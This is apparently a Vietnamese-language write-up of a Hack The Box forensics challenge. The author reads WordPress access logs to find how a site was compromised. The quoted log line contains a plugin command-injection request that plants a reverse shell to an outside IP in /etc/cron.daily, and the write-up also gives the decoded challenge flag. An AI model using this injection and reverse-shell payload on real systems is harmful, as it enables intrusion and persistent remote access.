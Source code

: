# Description

Vulnerable Season
Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

# Source

- [Source](./access.log)
- [Zip](./forensics_vulnerable_season.zip)

# Solve

- Do không chuyên mảng Forensics nên mình phân tích bằng tay và mắt 😵‍💫.
- Xem qua xem lại mười mấy nghìn dòng thì thấy dòng log này. Payload của hacker đã bị mã hóa đi bằng cách dùng base64 (phân mảnh) sau đó đảo ngược lại.
```log
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] 
"GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1"
200 512 "-" 
"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

- Mình phân tích và decode thì thu được flag.
```bash
echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d | rev
```

`Flag: HTB{L0g_@n4ly5t_4_bEg1nN3r}`